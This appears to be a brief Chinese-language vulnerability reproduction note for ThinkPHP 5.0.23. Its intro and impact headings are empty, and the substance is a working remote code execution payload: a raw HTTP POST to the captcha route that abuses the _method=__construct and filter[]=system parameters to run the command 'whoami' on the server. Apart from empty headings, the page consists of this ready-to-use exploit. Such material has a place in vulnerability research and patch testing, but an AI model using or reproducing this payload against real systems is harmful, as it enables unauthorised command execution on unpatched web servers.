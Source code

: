 # Thinkphp 5.0.23

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程


```bash
POST /index.php?s=captcha HTTP/1.1
Host: yuorip
Accept-Encoding: gzip, deflate
Accept: */* Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72


_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```